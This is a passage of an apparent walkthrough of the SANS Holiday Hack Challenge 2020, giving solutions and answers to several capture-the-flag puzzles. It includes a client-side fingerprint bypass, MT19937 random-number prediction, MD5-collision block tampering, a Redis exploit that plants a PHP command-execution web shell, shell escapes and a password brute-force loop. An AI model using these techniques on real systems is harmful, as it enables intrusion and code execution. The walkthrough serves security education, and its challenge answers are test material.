Mrs. Nature made a motion to approve. Seconded by Mr. Cornelius. Tanta Kringle recused herself from the vote given her adoption of Kris Kringle as a son early in his life.
Approved: Mother Nature Superman Clarice Yukon Cornelius Ginger Breaddie King Moonracer Mrs. Donner Charlie In the Box Krampus Dolly Snow Miser Alabaster Snowball Queen of the Winter Spirits
Opposed: Jack Frost
Resolution carries. Construction approved.
NEW BUSINESS: ```
ANSWER: Tanta Kringle
10) Defeat Fingerprint Sensor
Dificulty: 3/5
Bypass the Santavator fingerprint sensor. Enter Santa's office without Santa's fingerprint.
Client side authentication
The elevator works using client side validations to check if the button is enabled and if the token besanta is on the list of tokens.
The code that validates the fingerprint is downloaded from https://elevator.kringlecastle.com/app.js.
The simplest bypass is to modify the code in Chrome and replace the function handleBtn4 from the line 349 to 381 with one that performs no validation and save the changes.
const handleBtn4 = () => {
const cover = document.querySelector('.print-cover');
cover.classList.add('open');
cover.addEventListener('click', () => {
$.ajax({
type: 'POST',
url: POST_URL,
dataType: 'json',
contentType: 'application/json',
data: JSON.stringify({
targetFloor: '3',
id: getParams.id,
}),
success: (res, status) => {
if (res.hash) {
__POST_RESULTS__({
resourceId: getParams.id || '1111',
hash: res.hash,
action: 'goToFloor-3',
});
}
}
});
});
};
Once the changes to the local code is saved we press the fingerprint button.
Alternate solution
We can also use the Chrome console to modify the content of the variables in the DOM and push the right tokens.
tokens = ["marble", "elevator-key", "nut2", "yellowlight", "candycane", "nut", "ball", "greenlight", "workshop-button", "redlight", "besanta"]

11a) Naughty/Nice List with Blockchain Investigation Part 1
Difficulty: 5/5

Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000? Talk to Tangle Coalbox in the Speaker UNpreparedness Room for tips on prediction and Tinsel Upatree for more tips and tools(https://download.holidayhackchallenge.com/2020/OfficialNaughtyNiceBlockchainEducationPack.zip). (Enter just the 16-character hex value of the nonce)
ANSWER: 57066318f32f729d

Naughty list
The blockchain naughty list blockchain.dat file can download Santa's office.
Pseudo random number predictor
There is a tool from Tom Liston to help predict pseudo-random numbers using MT19937 at https://github.com/tliston/mt19937 An easier to addpt tool can be downloaded from https://github.com/kmyk/mersenne-twister-predictor.git
Extracting the nonces of the block
The function load_a_block of the provided python script can be modified to print the nonces of all blocks on the chain.
Modified naugthy_nice.py script
def load_a_block(self, fh):
self.index = int(fh.read(16), 16)
print (self.index) #MLR
self.nonce = int(fh.read(16), 16)
#print([self.nonce, self.index]) #MLR
print(str('%016.016x' % (self.nonce))) #MLR
We save the extracted nonces to nonceshex.txt.
Predictor script
The script will recreate a random state with the same parameters as the one that generated the nonces, and will feed them in order so that it recreates the state and then we call our custom random number generator to generate the next four nonces.
predictor = MT19937Predictor()
with open('nonceshex.txt') as nonces:
for nonce in nonces.readlines():
knownnonce=int(nonce,16)
predictor.setrandbits(knownnonce, 64)
for i in range(4):
print(str('%016.016x' % (predictor.getrandbits(64))))
Predicting the next four nonces
Once the nonces are stored in the nonceshex.txt file we run the mt19937predictorBlockchain11a.py predict the following values on the sequence.
b744baba65ed6fce
01866abd00f13aed
844f6b07bd9403e4
57066318f32f729d
ANSWER: 57066318f32f729d
11b) Naughty/Nice List with Blockchain Investigation Part 2
Difficulty: 5/5
The SHA256 of Jack's altered block is: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f. If you're clever, you can recreate the original version of that block by changing the values of only 4 bytes. Once you've recreated the original block, what is the SHA256 of that block?
ANSWER: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb

Naughty list
The blockchain naughty list blockchain.dat file can download Santa's office.
Extract the Block to a file
The load_a_block function can be modified again to save to a file the Block matching the hash, we also add a function to compute the SHA256 hashes of the blocks.
def sha256er(self):
return SHA256.new(self.block_data_signed()).hexdigest()
def load_a_block(self, fh):
frostyblock = b''
frosty = fh.read(16)
frostyblock += frosty
self.index = int(frosty, 16)
frosty = fh.read(16)
frostyblock += frosty
self.nonce = int(frosty, 16)
frosty = fh.read(16)
frostyblock += frosty
self.pid = int(frosty, 16)
frosty = fh.read(16)
frostyblock += frosty
self.rid = int(frosty, 16)
frosty = fh.read(1)
frostyblock += frosty
self.doc_count = int(frosty, 10)
frosty = fh.read(8)
frostyblock += frosty
self.score = int(frosty, 16)
frosty = fh.read(1)
frostyblock += frosty
self.sign = int(frosty, 10)
count = self.doc_count
while(count > 0):
l_data = {}
frosty = fh.read(2)
frostyblock += frosty
l_data['type'] = int(frosty,16)
frosty = fh.read(8)
frostyblock += frosty
l_data['length'] = int(frosty, 16)
frosty = fh.read(l_data['length'])
frostyblock += frosty
l_data['data'] = frosty
self.data.append(l_data)
count -= 1
frosty = fh.read(2)
frostyblock += frosty
self.month = int(frosty)
frosty = fh.read(2)
frostyblock += frosty
self.day = int(frosty)
frosty = fh.read(2)
frostyblock += frosty
self.hour = int(frosty)
frosty = fh.read(2)
frostyblock += frosty
self.minute = int(frosty)
frosty = fh.read(2)
frostyblock += frosty
self.second = int(frosty)
frosty = fh.read(32)
frostyblock += frosty
self.previous_hash = str(frosty)[2:-1]
frosty = fh.read(32)
frostyblock += frosty
self.hash = str(frosty)[2:-1]
frosty = fh.read(344)
frostyblock += frosty
self.sig = frosty
sha2546hash = self.sha256er() #MLR
if sha2546hash == '58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f' or self.index==129460 or self.full_hash()=='b10b4a6bd373b61f32f4fd3a0cdfbf84':
if self.index!=129460:
print ("Loaded Frosted block %s sha256: %s" % (str(self.index), self.sha256er())) #MLR
print ("Objective, generate a block by modifying 4 bytes in this block")
print ("The resulting block should have an MD5 of %s" % (self.full_hash()))
print(self)
with open('frosted%s.block' % (str(self.index)),'wb') as frosted:
frosted.write(frostyblock)
return self
Modified naugthy_nice.py script
Extracted block
Loaded Frosted block 129459 sha256: 58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f
Objective, generate a block by modifying 4 bytes in this block
The resulting block should have an MD5 of b10b4a6bd373b61f32f4fd3a0cdfbf84
Chain Index: 129459
Nonce: a9447e5771c704f4
PID: 0000000000012fd1
RID: 000000000000020f
Document Count: 2
Score: ffffffff (4294967295)
Sign: 1 (Nice)
Data item: 1
Data Type: ff (Binary blob)
Data Length: 0000006c
Data: b'ea465340303a6079d3df2762be68467c27f046d3a7ff4e92dfe1def7407f2a7b73e1b759b8b919451e37518d22d987296fcb0f188dd60388bf20350f2a91c29d0348614dc0bceef2bcadd4cc3f251ba8f9fbaf171a06df1e1fd8649396ab86f9d5118cc8d8204b4ffe8d8f09'
Data item: 2
Data Type: 05 (PDF)
Data Length: 00009f57
Data: b'...SNIP...'
Date: 03/24
Time: 13:21:41
PreviousHash: 4a91947439046c2dbaa96db38e924665
Data Hash to Sign: 347979fece8d403e06f89f8633b5231a
Signature: b'MJIxJy2iFXJRCN1EwDsqO9NzE2Dq1qlvZuFFlljmQ03+erFpqqgSI1xhfAwlfmI2MqZWXA9RDTVw3+aWPq2S0CKuKvXkDOrX92cPUz5wEMYNfuxrpOFhrK2sks0yeQWPsHFEV4cl6jtkZ//OwdIznTuVgfuA8UDcnqCpzSV9Uu8ugZpAlUY43Y40ecJPFoI/xi+VU4xM0+9vjY0EmQijOj5k89/AbMAD2R3UbFNmmR61w7cVLrDhx3XwTdY2RCc3ovnUYmhgPNnduKIUA/zKbuu95FFi5M2r6c5Mt6F+c9EdLza24xX2J4l3YbmagR/AEBaF9EBMDZ1o5cMTMCtHfw=='
The extracted block can be rendered with an application like xpdf or other PDF reader.

Fixing the PDF
Once the block is extracted the resulting PDF show the letter that Frost modified, after analyzing the code in the PDF it is possible to change the object references to use the page at reference 3 0 R instead of 2 0 R by increasing the value by one at the offset 265 and to keep the MD5 hash intact we need to modify the offset 265+64 to be one less.
Fixing the Naughty byte
The Naughty byte is located at the offset 73, we need to change it from 1 to 0 by decreasing the value by one, to adjust the MD5 and keep it identical we need to modify the byte at offset 73+64 from its current value to increase it by one.
Fixing the Block and solving the challenge
The solution to the block is implemented in the python script but can be done with a hex editor.
python collider.py
MD5 collisions
We can modify a byte value up or down and maintain the same MD5
if we modify the byte at 64 bytes in the opposite direction
Lets fix the Naughty byte first
Naughty byte is 1 byte long at : 73
Nice is 1, Naughty is 0, change from 1 to 0
Adjust collision at offset 137 (73 + 64) from whatever value to +1
('Original MD5 and SHA256 :', 'b10b4a6bd373b61f32f4fd3a0cdfbf84', '58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f')
Naughty byte fixed!
('Naughty MD5 and SHA256 :', 'b10b4a6bd373b61f32f4fd3a0cdfbf84', 'a329aa37ddd3016c900501818ea8be8577a4a14d039557ae52beca9257095cb9')
Lets fix the the PDF attack changing the reference to display the orignal PDF page
PDF attack byte is 1 byte long at : 265
Change the page reference from 2 0 R to 3 0 R
Adjust collision at offset 329 (265 + 64) from whatever value to +1
PDF attack byte fixed!!!
SOLUTION MD5:b10b4a6bd373b61f32f4fd3a0cdfbf84 and SHA256:fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb
ANSWER: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb

Unescape Tmux
Can you help me?
I was playing with my birdie (she's a Green Cheek!) in something called tmux, then I did something and it disappeared!
Can you help me find her? We were so attached!!
Solution
This achivement gets unlocked with any of the following commands:
tmux attach
tmux ls
tmux -S /tmp/tmux-1000/default attach -t 0
/var/go.sh

The ELF Code
This is a web game that has multiple levels with progressive complexioty and to solve requires coding the avatar movements in javascript.
Solution
Level 1
elf.moveLeft(10)
elf.moveUp(10)
Level 2
var ans = elf.get_lever(0) + 2
elf.moveLeft(6)
elf.pull_lever(ans)
elf.moveLeft(4)
elf.moveUp(10)
Level 3
elf.moveTo(lollipop[0])
elf.moveTo(lollipop[1])
elf.moveTo(lollipop[2])
elf.moveUp(1)
Level 4
for (var i = 0; i < 3; i++) {
elf.moveLeft(3), elf.moveUp(11), elf.moveLeft(3), elf.moveDown(11)
}
Level 5
elf.moveTo(lollipop[1])
elf.moveTo(lollipop[0])
var arr = elf.ask_munch(0)
var filtered = arr.filter(function(item) {
return (parseInt(item) == item);
});
elf.tell_munch(filtered)
elf.moveUp(2)
Level 6
var lev = elf.get_lever(0)
lev.unshift("munchkins rule")
for (var i = 0; i <= 3; i++) {
elf.moveTo(lollipop[i]);
}
elf.moveTo(lever[0])
elf.pull_lever(lev)
elf.moveDown(3)
elf.moveLeft(6)
elf.moveUp(2)
Level 7
Open the developer tools console and go to the win_or_loose function, add a break point, and enter the following commands before clicking play
this.game_grid[ this.cur_xy.y ][ this.cur_xy.x ]=4
this.lollipop_coords.length==0
Level 8
33.6kbps
This challenge is about completing a modem handshake to turn on the pine tree lights. The elfs give hints about which number to dial and also there is a recording of a previous recording.

Handshake sequence
Using the handshake audio recorded we should click on the different icons to reproduce a similar noise than that of the modem handshake.
Click on the handset and dial 7568347
Then click on the different words in the following sequence.
- 1 ba dee br
- 2 aaah
- 3 Wewewwwrrrwrrr
- 4 bedDURRdunditty
- 5 SCHHRRHHRTHRTR
Once the handhake is completed the tree lights will turn on and performing the same challenge again will change the tree lights to a different color.
Redis
We need your help!!
The server stopped working, all that's left is the maintenance port.
To access it, run:
curl http://localhost/maintenance.php
We're pretty sure the bug is in the index page. Can you some

Solution
The redis console in the kitchen has a vulnerability that allows to dump the contents of the databse to a file in the file system. To simplify the execution of payloads we can build a helper function as follows:
function cmd {
curl "localhost/maintenance.php?cmd=$1"
}
This way we simply send the commands we want redis to execute with parameters separated by commas, to exploit the vulnerability we have to configure the database backup directory to the web directory and the database backup file to a .php file, save the database to a file and then call the new file from the web server to execute our code.
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,1.php
cmd set,2,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Findex%2Ephp%22%29%3B%20%3F%3E
cmd set,3,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Frce%2Ephp%22%29%3B%20%3F%3E
Running: redis-cli --raw -a '<password censored>' 'set' '3' '<?php readfile("/var/www/html/maintenance.php"); ?>'
OK
cmd save
Running: redis-cli --raw -a '<password censored>' 'save'
OK
The php file will contain some REDIS database headers but those do not stop PHP from executing the rest of the code
curl localhost/1.php --output -
REDIS0009� redis-ver5.0.3�
�edis-bits�@�ctime�Km�_used-mem�(
aof-preamble��� �-<?php
# We found the bug!!
#
# \ /
# .\-/.
# /\ () ()
# \/~---~\.-~^-.
# .-~^-./ | \---.
# { | } \
# .-~\ | /~-.
# / \ A / \
# \/ \/
#
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
�3<?php
$redis_password = "R3disp@ss";
if(!isset($_REQUEST['cmd']) || $_REQUEST['cmd'] == '') {
die("\n\nERROR: 'cmd' argument required (use commas to separate commands); eg:\ncurl http://localhost/maintenance.php?cmd=help\ncurl http://localhost/maintenance.php?cmd=mget,example1\n\n");
}
# Pull apart the command, escape it, and put it back together
$cmd = implode(' ', array_map('escapeshellarg', explode(',', $_REQUEST['cmd'])));
if(strpos($cmd, 'scan') !== false) {
die("'scan' is not allowed");
}
if(strpos($cmd, 'requirepass') !== false) {
die("'requirepass' is not allowed");
}
$cmd = "redis-cli --raw -a '$redis_password' $cmd";
echo "Running: " . str_replace($redis_password, '<password censored>', $cmd) . "\n\n";
$result = shell_exec($cmd);
echo $result;
?>
Full RCE
We can achive upload a simple RCE php with the following sequence. 1. Load our helper function to simplify the exploitation
function cmd {
curl "localhost/maintenance.php?cmd=$1"
}
- Flush the database to avoid undesired content, configure redis to store out databse content into a php file and save the database.
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,rce.php
cmd 'set,backup1,%3C?php%20system($_GET%5B%22cmd%22%5D);%20?%3E'
cmd save
- Call our file using
curlto execute whatever command we want.
curl localhost/rce.php?cmd=ls --output -
Spaces have to be replaced with + or %20 to succeed.
curl localhost/rce.php?cmd=ls%20-al --output -

Escape to shell
Option 4 gives a hint that special characters may cause errors, after trying to execute /bin/bash in between back ticks "`" it seems it works but we receive no output to the console so we try again to redirect the stdout to stderror


Escaping to shell
Using back ticks can be used to execute shell comamnds but the output is being filtered so to show the output we redirect the stdout to stderr
`/bin/bash 1>&2`
And we escape to the shell.
___ _
/ __| _ _ __ __ ___ ___ ___ | |
\__ \ | +| | / _| / _| / -_) (_-< (_-< |_|
|___/ \_,_| \__|_ \__|_ \___| /__/_ /__/_ _(_)_
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ |
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'
Type 'exit' to return to the menu.
shinny@9bf4b0fee057:~$

Linux Primer
This challenge requires to perform a serie of tasks in the linux command line

task 1
Perform a directory listing of your home directory to find a munchkin and retrieve a lollipop!
elf@fc41807707ff:~$ ls
HELP munchkin_19315479765589239 workshop
task 2
Now find the munchkin inside the munchkin.
elf@fc41807707ff:~$ cat munchkin_19315479765589239
munchkin_24187022596776786
task 3
Great, now remove the munchkin in your home directory.
elf@fc41807707ff:~$ rm munchkin_19315479765589239
task 4
Print the present working directory using a command.
elf@fc41807707ff:~$ pwd
/home/elf
task 5
Good job but it looks like another munchkin hid itself in you home directory. Find the hidden munchkin!
elf@fc41807707ff:~$ ls -a
. .. .bash_history .bash_logout .bashrc .munchkin_5074624024543078 .profile HELP workshop
task 6
Excellent, now find the munchkin in your command history.
elf@fc41807707ff:~$ history|grep munchkin
1 echo munchkin_9394554126440791
3 cat munchkin_19315479765589239
4 rm munchkin_19315479765589239
8 history|grep munchkin
task 7
Find the munchkin in your environment variables.
elf@fc41807707ff:~$ env |grep munchkin
z_MUNCHKIN=munchkin_20249649541603754
task 8
Next, head into the workshop.
elf@fc41807707ff:~$ cd workshop
task 9
A munchkin is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the munchkin is in.
elf@fc41807707ff:~/workshop$ grep -i munchkin *
grep: electrical: Is a directory
toolbox_191.txt:mUnChKin.4056180441832623
task 10
A munchkin is blocking the lollipop_engine from starting. Run the lollipop_engine binary to retrieve this munchkin.
elf@fc41807707ff:~/workshop$ ls -al lollipop_engine
-r--r--r-- 1 elf elf 5692640 Dec 10 18:19 lollipop_engine
elf@fc41807707ff:~/workshop$ chmod +x lollipop_engine
elf@fc41807707ff:~/workshop$ ./lollipop_engine
munchkin.898906189498077
task 11
Munchkins have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.
elf@fc41807707ff:~/workshop$ cd electrical/
elf@fc41807707ff:~/workshop/electrical$ mv blown_fuse0 fuse0
task 12
Now, make a symbolic link (symlink) named fuse1 that points to fuse0
elf@fc41807707ff:~/workshop/electrical$ ln -s fuse0 fuse1
task 13
Make a copy of fuse1 named fuse2.
elf@fc41807707ff:~/workshop/electrical$ cp fuse1 fuse2
task 14
We need to make sure munchkins don't come back. Add the characters "MUNCHKIN_REPELLENT" into the file fuse2.
elf@fc41807707ff:~/workshop/electrical$ echo "MUNCHKIN_REPELLENT" >> fuse2
task 15
Find the munchkin somewhere in /opt/munchkin_den.
elf@38049d8f110c:/opt/munchkin_den$ find . |grep -i munch
./apps/showcase/src/main/resources/mUnChKin.6253159819943018
task 16
Find the file somewhere in /opt/munchkin_den that is owned by the user munchkin.
elf@38049d8f110c:/opt/munchkin_den$ ls -Ral |grep munchkin
-rw-r--r-- 1 munchkin munchkin 0 Dec 10 18:20 niKhCnUm_9528909612014411
task 17
Find the file created by munchkins that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/munchkin_den.
elf@38049d8f110c:/opt/munchkin_den$ find . -size +108k -size -110k
./plugins/portlet-mocks/src/test/java/org/apache/m_u_n_c_h_k_i_n_2579728047101724
task 18
List running processes to find another munchkin.
elf@38049d8f110c:/opt/munchkin_den$ ps -fea
UID PID PPID C STIME TTY TIME CMD
init 1 0 0 01:09 pts/0 00:00:00 /usr/bin/python3 /usr/local/bin/tmuxp load ./mysession.yaml
elf 19811 19808 0 02:03 pts/2 00:00:00 /usr/bin/python3 /14516_munchkin
elf 21649 319 0 02:04 pts/3 00:00:00 ps -fea
task 19
The 14516_munchkin process is listening on a tcp port. Use a command to have the only listening port display to the screen.
elf@38049d8f110c:/opt/munchkin_den$ netstat -antp
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:54321 0.0.0.0:* LISTEN 19811/python3
task 20
The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last munchkin.
elf@38049d8f110c:/opt/munchkin_den$ curl 0.0.0.0:54321
munchkin.73180338045875
task 21
Your final task is to stop the 14516_munchkin process to collect the remaining lollipops.
elf@38049d8f110c:/opt/munchkin_den$ kill -9 19811



Speaker UNPrep
This console contains multiple challenges, door, lights and vending-machines.
The door challenge opens the door to the UNPrep Speaker room, once the room opens the light is turned off. Solving the lights challenge will turn on the lights and enable the Snowball game. Then solving the vending-machines challenge will enable the vending machine that will give us the red and blue orbs for the santavator.
Door challenge
The binary door contained the password end can be extracted with strings.
elf@85c9114a15a1 ~ $ strings door |grep -i password
/home/elf/doorYou look at the screen. It wants a password. You roll your eyes - the
password is probably stored right in the binary. There's gotta be a
Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
Beep boop invalid password
The to unlock the achivement we simply run the binary and enter the discovered password.
elf@85c9114a15a1 ~ $ ./door
You look at the screen. It wants a password. You roll your eyes - the
password is probably stored right in the binary. There's gotta be a
tool for this...
What do you enter? > Op3nTheD00r
Checking......
Door opened!
ANSWER: Op3nTheD00r
Lights challenge
The lights binary uses a complementary lights.conf file that contains two fields name and password, after entering the string in cyberchef it did not get much out of it but the hints tells you can modify the files in /lab so we use teh same string that is in the password for the name and after running the challenge again it greets us with the password Computer-TurnLightsOn.
To unlock the achivement we run the challenge using the password.
elf@85c9114a15a1 ~ $ ./lights
The speaker unpreparedness room sure is dark, you're thinking (assuming
you've opened the door; otherwise, you wonder how dark it actually is)
You wonder how to turn the lights on? If only you had some kind of hin---
>>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lights.conf
---t to help figure out the password... I guess you'll just have to make do!
The terminal just blinks: Welcome back, elf-technician
What do you enter? > Computer-TurnLightsOn
Checking......
Lights on!
ANSWER: Computer-TurnLightsOn
Vendingmachine challenge
The vending machine does not unencrypt the password as the lights challenges but if the vending-machines.json configuration file is delted it asks for a user and passwords and creates a new file.
After entering a long password AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA it becomes evident that the same string repeats over and over giving which is a tell that we may be dealing with simple XOR or substitution mechanism in the back.
For example when entering only A's, tThe string that kept repeating is XiGRehmw in hex will be 19 28 06 13 24 29 2c 36, but its different that the one when using only B but it kept the patter of repetition every eight characters.
To make this quick lets simply loop thru the alphabet and numbers.
The bruteforcing loop:
for p in `python -c 'for x in range(48,123): print(chr(x)*8)'`; do rm vending-machines.json ; echo -e "${p}\n${p}\n${p}\n" | ./vending-machines ;echo " test: $p"; grep pass vending-machines.json ; done |egrep "test:|password" > bruteforcer.txt
Now to find the what character was entered that matched the exact position of the password we use simple regular expressions to get the value of the nth character matching LVEdQPpBwr in the vending-machines.json , once we get to the 8th character we search for the next chanacter at the 1st position as the pattern loops every 8 characters.
The substitution finder:
elf@85c9114a15a1 ~/lab $ cat ../vending-machines.json
{
"name": "elf-maintenance",
"password": "LVEdQPpBwr"
}
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \"L" bruteforcer.txt
test: CCCCCCCC
"password": "Lbn3UP9W"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \".V" bruteforcer.txt
test: aaaaaaaa
"password": "9Vbtacpg"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \"..E" bruteforcer.txt
test: nnnnnnnn
"password": "bhE62XDB"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \"...d" bruteforcer.txt
test: dddddddd
"password": "ORLdlwWb"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \"....Q" bruteforcer.txt
test: yyyyyyyy
"password": "iL5JQAMU"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \".....P" bruteforcer.txt
test: CCCCCCCC
"password": "Lbn3UP9W"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \"......p" bruteforcer.txt
test: aaaaaaaa
"password": "9Vbtacpg"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \".......B" bruteforcer.txt
test: nnnnnnnn
"password": "bhE62XDB"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \"w" bruteforcer.txt
test: eeeeeeee
"password": "wcZQAYue"
elf@85c9114a15a1 ~/lab $ grep -B1 " \"password\": \".r" bruteforcer.txt
test: 11111111
"password": "2rDO5LkI"
ANSWER: CandyCane1
Snowball game

The snowball game in the easy level will generate the same layout over and over if the same name is used, in the hard level you cannot pick the name, it is automatically assigned to an integer number, if that same name is entered in another tab in the easy level the easy level will also have the exact same layout.
In the impossible level you cannot see the name but in the source code of the /game page you can see a list of 623 integers except the last one which is the choosen one to generate the layout.
Using the same MT19937 predictor as in challenge 11a as template, we enter the list of numbers in a text file and generate the next random and then open a new tab using that as name in the easy level. At this point we only need to take note of layout of the game at the easy level and use that to win the Impossible level!
Random prediction
Script to generate the next random
import random
from mt19937predictor import MT19937Predictor
predictor = MT19937Predictor()
with open('snowball.txt') as nonces:
for nonce in nonces.readlines():
knownnonce=int(nonce)
predictor.setrandbits(knownnonce, 32)
nextrandom=predictor.getrandbits(32)
print(str('%08.08x' % (nextrandom)))
print(nextrandom)
Generate next number
python mt19937predictorSnowball.py
d5f31c25
3589479461
Solved challenge
Use the predicted missing code 3589479461 in this case, and use it in another window in the Easy level at the Snowball challenge source page https://snowball2.kringlecastle.com/, to have the achivement unlocked the game should be won at the impossible level inside the iframe on the kringlecon page.

Sort-O-Matic
This challenge requires multiple regular expressions to filter values.
ANSWERS:
1. \d+
2. [a-zA-Z]{3,}
3. [a-z0-9]{2}
4. [^A-L1-5]{2}
5. ^\d{3,}$
6. ^([0-1]?[0-9]|2[0-3]):([0-5][0-9]):([0-5][0-9])$
7. ^[0-9a-fA-F]{2}:[0-9a-fA-F]{2}:[0-9a-fA-F]{2}:[0-9a-fA-F]{2}:[0-9a-fA-F]{2}:[0-9a-fA-F]{2}$
8. ^([0-2]?[0-9]|3[0-1])(.|\/|-)(0[1-9]|1[0-2])(.|\/|-)(19[0-9]{2}|20[0-9]{2})$
Scapy Prepper
This challenge teaches the use of scapy to manipulate packets and it gives some hints for challenge 9 ARP Shenanigans.
╔════════════════════════════════════════════════════════════════╗
║ ___ ___ ___ ___ ___ _ _ _____ ___ _ ___ _ _____ _____ ║
║ | _ \ _ \ __/ __| __| \| |_ _| | _ \/_\ / __| |/ / __|_ _| ║
║ | _/ / _|\__ \ _|| .` | | | | _/ _ \ (__| ' <| _| | | ║
║ |_| |_|_\___|___/___|_|\_| |_| |_|/_/ \_\___|_|\_\___| |_| ║
║ ___ ║
║ | _ \_ _ ___ _ __ _ __ ___ _ _ ║
║ | _/ '_/ -_) '_ \ '_ \/ -_) '_| ║
║ |_| |_| \___| .__/ .__/\___|_| ║
║ |_| |_| ║
║ (Packets prepared with scapy) ║
╚════════════════════════════════════════════════════════════════╝
Type "yes" to begin.
